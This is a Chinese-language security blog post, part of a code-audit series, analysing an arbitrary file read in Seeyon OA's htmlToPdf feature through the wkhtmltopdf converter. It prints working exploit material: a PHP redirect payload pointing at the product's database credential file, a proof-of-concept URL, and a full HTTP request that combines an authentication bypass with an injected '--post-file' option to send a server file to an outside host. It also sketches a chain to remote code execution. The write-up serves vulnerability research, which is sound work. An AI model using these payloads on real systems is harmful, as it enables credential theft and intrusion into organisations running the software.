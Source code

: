 致远OA代码审计系列四-htmlToPdf任意文件读取漏洞分析
===============================

原创 作者:archive 公号:安全回忆录 发布时间:2023-12-02 0:00 发表于北京

原文地址：[致远OA代码审计系列四-htmlToPdf任意文件读取漏洞分析](https://mp.weixin.qq.com/s/HD_5hQknxhwdf19G7mta6Q)

**漏洞描述:**

htmlToPdf任意文件读取漏洞官方于22年8月发布漏洞补丁, 由于致远OA使用了外部工具wkhtmltopdf进行html转pdf操作, 该工具历史上存在SSRF任意文件读取漏洞。理论上是一个后台漏洞. 但是配合《致远OA代码审计系列二》中提到的致远OA权限绕过, 可以实现前台任意文件读取。配合S1组件漏洞, 也可以实现前台SSRF到RCE。目前该漏洞互联网上暂未发现分析文章, 漏洞传播范围也较小, 阅读这篇文章时建议先阅读前两篇文章。

  

> 致远OA代码审计系列一
> 
> archive，公众号：安全回忆录[致远OA代码审计系列一](http://mp.weixin.qq.com/s?__biz=MzkyNjM1MDMyMg==&mid=2247483794&idx=1&sn=84af07a085a3b67efb46e9b09ea17018&chksm=c239ef0ff54e6619906b8ad3db6c26e1c2517356c80920493898cd472682b8da463bb4922757#rd)

  

> 致远OA代码审计系列二
> 
> archive，公众号：安全回忆录[致远OA代码审计系列二](http://mp.weixin.qq.com/s?__biz=MzkyNjM1MDMyMg==&mid=2247483803&idx=1&sn=a66efb07c048a8219ab30811b4275643&chksm=c239ef06f54e6610f36698e54678e2cc4cf5c77e5248dc8933d76d0d779dff47d8e2c233bc53#rd)

**适用版本:**

适配版本范围：V5&G6&N的V7.1至V8.1SP1全系列版本。

**漏洞分析:**

 漏洞位置:HtmlToPdfController

```python
com/seeyon/ctp/common/htmltopdf/controller/HtmlToPdfController.class
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMswhNy8UzczgFpUZW9lFWc6Q7aFcf0icmXPNkRX3CNM6cBoNGjQN31RRYWkbGiasPJVbjByVIqnFATg/640?wx_fmt=png&from=appmsg)

跟进HtmlToPdfManager#singleHtmlToPdf方法, 该方法用于将 HTML 转换为 PDF , 通过Runtime.getRuntime().exec() 执行命令调用外部工具wkhtmltopdf进行转换, 虽然是通过Runtime.getRuntime().exec() 执行系统命令,且CMD参数存在拼接参数. 但是由于会经过StringTokenizer处理, 这里并不存在命令注入。

整体逻辑比较简单. 通过简单的处理判断, 将cookie进行简单处理后带入cmd命令中, 最终调用exec方法执行cmd命令进行html转pdf操作.

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMtED5XKPObeQv7RSORiayshYx43iakloiczuNaBB4JiaGVePn7OPIxOq9Hd1NibJM0Xxoa06vqlUdtS18w/640?wx_fmt=png&from=appmsg)

致远OA将HTML转化为PDF借用了外置工具wkhtmltopdf进行转换, 搜索wkhtmltopdf发现存在历史漏洞,存在ssrf和文件读取漏洞. issues地址如下:  

```ruby
https://github.com/wkhtmltopdf/wkhtmltopdf/issues/3570
```

路由在spring-htmlToPdf-controller.xml中配置: /htmlToPdf/htmlToPdf.do

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMtED5XKPObeQv7RSORiayshYD81TI4RSdJtLaEVzOdhZfNLzib4OIvxSyDicFvj5oSnA6BmmhOy4q44Q/640?wx_fmt=png&from=appmsg)

wkhtmltopdf会跟随302重定向,可以通过302重定向实现任意文件读取。  

```xml
<?php 
header('location:file:///C:/seeyon/A8/base/conf/datasourceCtp.properties'); 
?>

```

利用如下poc即可实现任意文件读取。

```ruby
http://192.168.246.4/seeyon/rest/product/trans/htmlToPdf?formPath=http://192.168.3.49:82/111.php
```

翻看wkhtmltopdf官方文档发现支持post数据直接带外。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMtED5XKPObeQv7RSORiayshYQUMaUFF2SpSZLPAQrqFffGibXQ8DthNapRD452ibPHRlN8pKBEDtDbBA/640?wx_fmt=png&from=appmsg)

最终利用POC, 配合权限绕过漏洞,实现前台任意文件读取。

```http
GET /seeyon/htmlToPdf/htmlToPdf.do;Jsessionid=a?method=htmlToPdf&formUrl=--post-file%20file%20C%3A/windows/win.ini%20http%3A//192.168.246.1 HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
Host: 192.168.246.4
Connection: close
User-Agent: Apache-HttpClient/4.5.13 (Java/1.8.0_321)
Cookie: JSESSIONID=10EB94A1DE4FEAD8D3A9AF7A6B031F2C; login_locale=zh_CN
Accept-Encoding: gzip, deflate
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMtED5XKPObeQv7RSORiayshYCaZkQXzVuAicckJe8CRzw0MtEaEINzJbIsMEPPEDia9fQ85JslOMxm4w/640?wx_fmt=png&from=appmsg)

**漏洞扩展:**

该漏洞本质上是一个SSRF漏洞, 配合前段时间爆出的XXE到RCE漏洞, 也可以实现SSRF到RCE, 且该漏洞的官方修复方式仅修复前台XXE漏洞, 并未修复S1组件的相关漏洞. 只要找到存在SSRF漏洞点. 理论上该漏洞还可以利用。
